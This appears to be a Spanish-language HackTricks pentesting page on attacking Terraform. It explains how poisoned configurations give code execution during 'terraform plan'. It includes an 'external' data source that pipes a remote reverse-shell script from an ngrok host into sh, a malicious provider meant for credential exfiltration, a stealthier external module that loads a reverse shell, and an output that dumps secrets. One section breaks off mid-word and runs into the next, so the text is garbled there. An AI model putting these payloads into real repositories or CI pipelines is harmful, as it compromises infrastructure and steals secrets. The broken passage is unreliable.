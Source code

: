 # Seguridad de Terraform

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PR a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Información básica

HashiCorp Terraform es una herramienta de **infraestructura como código** que te permite definir tanto **recursos en la nube como en local** en archivos de configuración legibles por humanos que puedes versionar, reutilizar y compartir. Luego puedes usar un flujo de trabajo consistente para aprovisionar y administrar toda tu infraestructura a lo largo de su ciclo de vida. Terraform puede administrar componentes de bajo nivel como recursos de cómputo, almacenamiento y redes, así como componentes de alto nivel como entradas DNS y características de SaaS.

### ¿Cómo funciona Terraform?

Terraform crea y administra recursos en plataformas en la nube y otros servicios a través de sus interfaces de programación de aplicaciones (API). Los proveedores permiten que Terraform funcione con prácticamente cualquier plataforma o servicio con una API accesible.

![](<../../.gitbook/assets/image (33).png>)

HashiCorp y la comunidad de Terraform ya han escrito **más de 1700 proveedores** para administrar miles de tipos diferentes de recursos y servicios, y este número sigue creciendo. Puedes encontrar todos los proveedores públicamente disponibles en el [Registro de Terraform](https://registry.terraform.io/), incluyendo Amazon Web Services (AWS), Azure, Google Cloud Platform (GCP), Kubernetes, Helm, GitHub, Splunk, DataDog y muchos más.

El flujo de trabajo principal de Terraform consta de tres etapas:

* **Escribir:** Definir recursos, que pueden estar en múltiples proveedores y servicios en la nube. Por ejemplo, puedes crear una configuración para implementar una aplicación en máquinas virtuales en una red de VPC con grupos de seguridad y un balanceador de carga.
* **Planificar:** Terraform crea un plan de ejecución que describe la infraestructura que creará, actualizará o destruirá en función de la infraestructura existente y tu configuración.
* **Aplicar:** Con la aprobación, Terraform realiza las operaciones propuestas en el orden correcto, respetando cualquier dependencia de recursos. Por ejemplo, si actualizas las propiedades de una VPC y cambias el número de máquinas virtuales en esa VPC, Terraform recreará la VPC antes de escalar las máquinas virtuales.

![](<../../.gitbook/assets/image (81).png>)

### Terraform Enterprise

Terraform Enterprise te permite **ejecutar comandos** como `terraform plan` o `terraform apply` de forma remota en una **versión alojada por ti de Terraform Cloud**. Por lo tanto, si encuentras la **clave API** para acceder a ese servidor de Terraform, puedes **comprometerlo**.\
Para obtener más información, consulta:

{% content-ref url="terraform-enterprise-security.md" %}
[terraform-enterprise-security.md](terraform-enterprise-security.md)
{% endcontent-ref %}

## Laboratorio de Terraform

Solo instala Terraform en tu computadora.

Aquí tienes una [guía](https://learn.hashicorp.com/tutorials/terraform/install-cli) y aquí tienes la [mejor manera de descargar Terraform](https://www.terraform.io/downloads).

## RCE en Terraform

Terraform **no tiene una plataforma que exponga una página web o un servicio de red** que podamos enumerar, por lo tanto, la única forma de comprometer Terraform es **poder agregar/modificar archivos de configuración de Terraform**.

Sin embargo, Terraform es un componente **muy sensible** para comprometer porque tendrá **acceso privilegiado** a diferentes ubicaciones para que pueda funcionar correctamente.

La principal forma para que un atacante pueda comprometer el sistema donde se ejecuta Terraform es **comprometer el repositorio que almacena las configuraciones de Terraform**, porque en algún momento se van a **interpretar**.

De hecho, hay soluciones por ahí que **ejecutan automáticamente terraform plan/apply después de que se crea un PR**, como **Atlantis**:

{% content-ref url="../atlantis-security.md" %}
[atlantis-security.md](../atlantis-security.md)
{% endcontent-ref %}

Si puedes comprometer un archivo de Terraform, hay diferentes formas en que puedes realizar RCE cuando alguien ejecuta `terraform plan` o `terraform apply`.

### Terraform plan

Terraform plan es el **comando más utilizado** en Terraform y los desarrolladores/soluciones que usan Terraform lo llaman todo el tiempo, por lo que la **forma más fácil de obtener RCE** es asegurarse de envenenar un archivo de configuración de Terraform que ejecutará comandos arbitrarios en un `terraform plan`.

#### Usando un proveedor externo

Terraform ofrece el proveedor [`external`](https://registry.terraform.io/providers/hashicorp/external/latest/docs), que proporciona una forma de interactuar entre Terraform y programas externos. Puedes usar el origen de datos `external` para ejecutar código arbitrario durante un `plan`.

Inyectar en un archivo de configuración de Terraform algo como lo siguiente ejecutará un shell inverso cuando se ejecute `terraform plan`:

```javascript
data "external" "example" {
  program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```

#### Usando un proveedor personalizado

Cualquiera puede escribir un [proveedor personalizado](https://learn.hashicorp.com/tutorials/terraform/provider-setup) y publicarlo en el [Registro de Terraform](https://registry.terraform.io/). También podrías intentar extraer un proveedor personalizado de un registro privado.

Eso es todo:

* escribe un proveedor personalizado que ejecute algún código malicioso (como la exfiltración de credenciales o datos de clientes)
  * publícalo en el Registro de Terraform
  * agrega el proveedor al código de Terraform en una rama de características
  * abre un PR para la rama de características

```javascript
 terraform {
        required_providers {
            evil = {
                source  = "evil/evil"
                    version = "1.0"
            }
        }
    }

provider "evil" {}
```

Dado que el proveedor se extraerá durante el `init` y ejecutará algún código durante el `plan`, tienes una ejecución de código arbitrario.

Puedes encontrar un ejemplo en [https://github.com/rung/terraform-provider-cmdexec](https://github.com/rung/terraform-provider-cmdexec)

#### Usando una referencia externa

Ambas opciones mencionadas son útiles pero no muy sigilosas (la segunda es más sigilosa pero más compleja que la primera). Puedes realizar este ataque incluso de una manera **más sigilosa**, siguiendo estas sugerencias:

* En lugar de agregar el shell inverso directamente al archivo de Terraform, puedes **cargar un recurso externo** que contenga el shell inverso:

```javascript
module "not_rev_shell" {
  source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```

Puedes encontrar el código del shell inverso en [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules)

* En el recurso externo, usa la función **ref** para ocultar el **código de shell invers
## Volcado de Secretos

Puede hacer que los **valores secretos utilizados por terraform se vuelquen** ejecutando `terraform apply` agregando al archivo terraform algo como:

```json
output "dotoken" {
  value = nonsensitive(var.do_token)
}
```

## Herramientas de Auditoría

* [**tfsec**](https://github.com/aquasecurity/tfsec): tfsec utiliza análisis estático de su código terraform para detectar posibles configuraciones incorrectas.
* [**terascan**](https://github.com/tenable/terrascan): Terrascan es un analizador de código estático para la Infraestructura como Código.

## Referencias

* [Atlantis Security](../atlantis-security.md)
* [https://alex.kaskaso.li/post/terraform-plan-rce](https://alex.kaskaso.li/post/terraform-plan-rce)

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si desea ver su **empresa anunciada en HackTricks** o si desea acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulte los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtenga el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PR a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github.

</details>